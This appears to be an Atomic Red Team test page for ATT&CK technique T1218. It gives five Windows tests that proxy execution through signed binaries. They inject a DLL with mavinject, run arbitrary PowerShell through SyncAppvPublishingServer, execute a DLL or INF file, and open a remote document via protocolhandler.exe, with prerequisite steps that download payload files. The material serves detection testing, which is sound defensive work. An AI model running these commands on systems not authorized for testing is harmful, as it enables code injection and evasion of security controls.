 # T1218 - Signed Binary Proxy Execution
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1218)
<blockquote>Adversaries may bypass process and/or signature-based defenses by proxying execution of malicious content with signed binaries. Binaries signed with trusted digital certificates can execute on Windows systems protected by digital signature validation. Several Microsoft signed binaries that are default on Windows installations can be used to proxy execution of other files.</blockquote>

## Atomic Tests

- [Atomic Test #1 - mavinject - Inject DLL into running process](#atomic-test-1---mavinject---inject-dll-into-running-process)

- [Atomic Test #2 - SyncAppvPublishingServer - Execute arbitrary PowerShell code](#atomic-test-2---syncappvpublishingserver---execute-arbitrary-powershell-code)

- [Atomic Test #3 - Register-CimProvider - Execute evil dll](#atomic-test-3---register-cimprovider---execute-evil-dll)

- [Atomic Test #4 - InfDefaultInstall.exe .inf Execution](#atomic-test-4---infdefaultinstallexe-inf-execution)

- [Atomic Test #5 - ProtocolHandler.exe Downloaded a Suspicious File](#atomic-test-5---protocolhandlerexe-downloaded-a-suspicious-file)


<br/>

## Atomic Test #1 - mavinject - Inject DLL into running process
Injects arbitrary DLL into running process specified by process ID. Requires Windows 10.

**Supported Platforms:** Windows




#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| process_id | PID of process receiving injection | string | 1000|
| dll_payload | DLL to inject | Path | PathToAtomicsFolder&#92;T1218&#92;src&#92;x64&#92;T1218.dll|


#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
mavinject.exe #{process_id} /INJECTRUNNING #{dll_payload}
```




#### Dependencies:  Run with `powershell`!
##### Description: T1218.dll must exist on disk at specified location (#{dll_payload})
##### Check Prereq Commands:
```powershell
if (Test-Path #{dll_payload}) {exit 0} else {exit 1} 
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory (split-path #{dll_payload}) -ErrorAction ignore | Out-Null
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1218/src/x64/T1218.dll" -OutFile "#{dll_payload}"
```




<br/>
<br/>

## Atomic Test #2 - SyncAppvPublishingServer - Execute arbitrary PowerShell code
Executes arbitrary PowerShell code using SyncAppvPublishingServer.exe. Requires Windows 10.

**Supported Platforms:** Windows




#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| powershell_code | PowerShell code to execute | string | Start-Process calc.exe|


#### Attack Commands: Run with `command_prompt`! 


```cmd
SyncAppvPublishingServer.exe "n; #{powershell_code}"
```






<br/>
<br/>

## Atomic Test #3 - Register-CimProvider - Execute evil dll
Execute arbitrary dll. Requires at least Windows 8/2012. Also note this dll can be served up via SMB

**Supported Platforms:** Windows




#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| dll_payload | DLL to execute | Path | PathToAtomicsFolder&#92;T1218&#92;src&#92;Win32&#92;T1218-2.dll|


#### Attack Commands: Run with `command_prompt`! 


```cmd
C:\Windows\SysWow64\Register-CimProvider.exe -Path #{dll_payload}
```




#### Dependencies:  Run with `powershell`!
##### Description: T1218-2.dll must exist on disk at specified location (#{dll_payload})
##### Check Prereq Commands:
```powershell
if (Test-Path #{dll_payload}) {exit 0} else {exit 1} 
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory (split-path #{dll_payload}) -ErrorAction ignore | Out-Null
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1218/src/Win32/T1218-2.dll" -OutFile "#{dll_payload}"
```




<br/>
<br/>

## Atomic Test #4 - InfDefaultInstall.exe .inf Execution
Test execution of a .inf using InfDefaultInstall.exe

Reference: https://github.com/LOLBAS-Project/LOLBAS/blob/master/yml/OSBinaries/Infdefaultinstall.yml

**Supported Platforms:** Windows




#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| inf_to_execute | Local location of inf file | string | PathToAtomicsFolder&#92;T1218&#92;src&#92;Infdefaultinstall.inf|


#### Attack Commands: Run with `command_prompt`! 


```cmd
InfDefaultInstall.exe #{inf_to_execute}
```




#### Dependencies:  Run with `powershell`!
##### Description: INF file must exist on disk at specified location (#{inf_to_execute})
##### Check Prereq Commands:
```powershell
if (Test-Path #{inf_to_execute}) {exit 0} else {exit 1} 
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory (split-path #{inf_to_execute}) -ErrorAction ignore | Out-Null
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1218/src/Infdefaultinstall.inf" -OutFile "#{inf_to_execute}"
```




<br/>
<br/>

## Atomic Test #5 - ProtocolHandler.exe Downloaded a Suspicious File
Emulates attack via documents through protocol handler in Microsoft Office.  On successful execution you should see Microsoft Word launch a blank file.

**Supported Platforms:** Windows




#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| microsoft_wordpath | path to office folder | path | C:&#92;Program Files&#92;Microsoft Office&#92;Office16|
| remote_url | url to document | url | https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1218/src/T1218Test.docx|


#### Attack Commands: Run with `command_prompt`! 


```cmd
#{microsoft_wordpath}\protocolhandler.exe "ms-word:nft|u|#{remote_url}"
```




#### Dependencies:  Run with `powershell`!
##### Description: Microsoft Word must be installed with the correct path and protocolhandler.exe must be provided
##### Check Prereq Commands:
```powershell
if (Test-Path "#{microsoft_wordpath}\protocolhandler.exe") {exit 0} else {exit 1} 
```
##### Get Prereq Commands:
```powershell
write-host "Install Microsoft Word or provide correct path."
```




<br/>
